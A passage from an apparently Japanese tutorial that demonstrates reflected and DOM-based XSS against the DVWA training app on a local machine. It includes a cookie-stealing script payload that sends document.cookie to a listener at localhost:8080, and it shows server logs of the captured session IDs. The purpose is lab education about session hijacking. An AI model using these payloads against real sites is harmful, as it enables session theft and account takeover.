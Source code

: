 これを押してしまうと攻撃者のwebサーバに以下のアクセスが送られてしまい。cookieに保存されていたsessionidなどが抜かれてしまいます。

```nginx
192.168.215.1 - - [31/May/2025:07:18:53 +0000] "GET /?PHPSESSID=5824979114356d4e2f76c5c0c95adbbf;%20security=low HTTP/1.1" 200 615 "http://127.0.0.1:4280/" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36" "-"
```
抜かれてしまったcookieの情報
```
PHPSESSID=5824979114356d4e2f76c5c0c95adbbf
security=low
```

上記の通り脆弱なwebアプリケーションでは<font color="red">**セッションの乗っ取り**</font>が容易にできてしまうことがわかりました。

## DOM Based XSS

DOM Based XSSもReflected XSSと同様に、悪意のあるスクリプトをブラウザ上で実行させる攻撃です。ただし、スクリプトが実行される仕組みが異なります。
DOM Based XSSはその名の通り、jsがDOMを介してHTMLを操作する際に発生するものです。Reflected XSSとの大きな違いは、必ずしもサーバーを介さず、クライアント側だけで完結する点です。（なのでサーバ側で検知しにくい）

### 攻撃手順

まずDVWAで`XSS (DOM)`のメニューを開きます。

![スクリーンショット 2025-06-03 22.17.30.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2620245/e439a51c-4ed7-4aa4-8d0e-f6f41746ec80.png)

開くとリンクは以下のようになっていますが、ここにスクリプトを埋め込みます。
http://127.0.0.1:4280/vulnerabilities/xss_d/?default=English

先ほど同様にとりあえず以下のスクリプトでalertが発動するか確認してみましょう。
```html
<script>alert('DOM Based XSS')</script>
```
**http://127.0.0.1:4280/vulnerabilities/xss_d/?default=English#%3Cscript%3Ealert('DOM%20Based%20XSS')%3C/script%3E**

![スクリーンショット 2025-06-03 22.41.46.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2620245/2501c44c-6549-4e53-88cb-860f48ee135d.png)


alertが発動することが確認できました。続いて、cookieの内容を含んで攻撃者が立てたwebサーバにアクセスさせて先ほど同様にcookieに含んでいるセッションを奪取してみましょう。

```html
<script>new Image().src='http://localhost:8080/?cookie='+document.cookie</script>
```
↓ 上記のスクリプトを含んだリンク
**http://127.0.0.1:4280/vulnerabilities/xss_d/?default=English#%3Cscript%3Enew%20Image().src='http://localhost:8080/?cookie='+document.cookie%3C/script%3E**

```nginx
192.168.215.1 - - [03/Jun/2025:13:32:56 +0000] "GET /?cookie=security=low;%20PHPSESSID=55b51fbf98bb628a8a533b4269cc154a HTTP/1.1" 200 615 "http://127.0.0.1:4280/" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36" "-"
```

すると先ほど立てたwebサーバにアクセスが確認できました。そして、またしてもcookieの情報が抜き取られてしまいました。
```
security=low
PHPSESSID=55b51fbf98bb628a8a533b4269cc154a
```
